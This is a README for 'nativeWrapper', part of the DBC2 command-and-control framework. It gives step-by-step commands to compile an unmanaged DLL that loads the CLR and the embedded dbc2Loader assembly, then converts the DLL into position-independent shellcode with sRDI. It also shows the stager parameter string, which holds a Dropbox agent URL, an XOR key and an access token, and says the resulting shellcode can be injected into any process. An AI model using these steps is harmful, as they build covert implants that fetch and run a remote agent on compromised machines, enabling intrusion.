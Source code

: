 nativeWrapper
============
**dbc2LoaderWrapperCLR** is a unamanaged DLL that loads the .Net CLR in memory at runtime, then loads the dbc2Loader .Net assembly from memory and finally invoke a dbc2Loader specific method (*to match a specific function prototype required by InvokeMember_3 method*).

The dbc2Loader assembly is hardcoded as an array of bytes in the `dbc2LoaderWrapperCLR.h` file.

The sole purpose of this DLL is to get a unmanaged DLL hosting the dbc2Loader .Net assembly in order to be later converted into position independant shellcode through the use of sRDI (https://github.com/monoxgas/sRDI).


How to compile the nativeWrapper DLL
----------------
You'll need Visual Studio (express is ok as well):

```
====== x86 (32 bits) DLL:
	1/ First, run the following bat file:
		"c:\Program Files (x86)\Microsoft Visual Studio 14.0\VC\bin\vcvars32.bat"

	2/ Then compile it using
		c:\> cl.exe /LD dbc2LoaderWrapperCLR.cpp /o release_x86\dbc2LoaderWrapperCLR_x86.dll
	
====== x64 (64 bits) DLL:
		1/ First, run the following bat file:
		"C:\Program Files (x86)\Microsoft Visual Studio 14.0\VC\bin\x86_amd64\vcvarsx86_amd64.bat"

	2/ Then compile it using
		c:\> cl.exe /LD dbc2LoaderWrapperCLR.cpp /o release_x64\dbc2LoaderWrapperCLR_x64.dll
```

How to convert the DLL to shellcode with sRDI
----------------

You'll have to use a slightly modified version of the powershell `ConvertTo-Shellcode.ps1` script that is provided in this repository. You'll need the x86 and/or x64 compiled nativeWrapper.dll file.

Then use the powershell script like this:

```
c:\> powershell.exe
PS c:\> ipmo ConvertTo-Shellcode.ps1

PS c:\> #x86 DLL 
PS c:\> ConvertTo-Shellcode -File release_x86\dbc2LoaderWrapperCLR_86.dll -UserData "<all required parameters for the dbc2Loader entryPoint function>" | Set-Content -Path dbc2LoaderWrapperCLR_x86.bin -Encoding Byte

PS c:\> #x64 DLL 
PS c:\> ConvertTo-Shellcode -File release_x64\dbc2LoaderWrapperCLR_64.dll -UserData "<all required parameters for the dbc2Loader entryPoint function>" | Set-Content -Path dbc2LoaderWrapperCLR_x86.bin -Encoding Byte
```

**IMPORTANT**: Using the ConvertTo-Shellcode.ps1 script, it is important to note that the dbc2Loader parameters must be passed in one single string with a `!` separator, like for instance:
`https://dropbox.com/path_to_dbc2_agent!xorkey!accessToken!masterkey`
Those parameters are just like to one you would find in any other DBC2 stager.

The resulting bin file are the shellcode that you're free to inject in any process using your prefered method.

Have fun !

Credits
-------------
Lee Christensen for creating and hosting the CLR in native code, then loading and executing a .Net assembly
https://github.com/leechristensen/UnmanagedPowerShell

Nick Landers for sRDI, used for transforming a native DLL to position independant shellcode 
https://github.com/monoxgas/sRDI
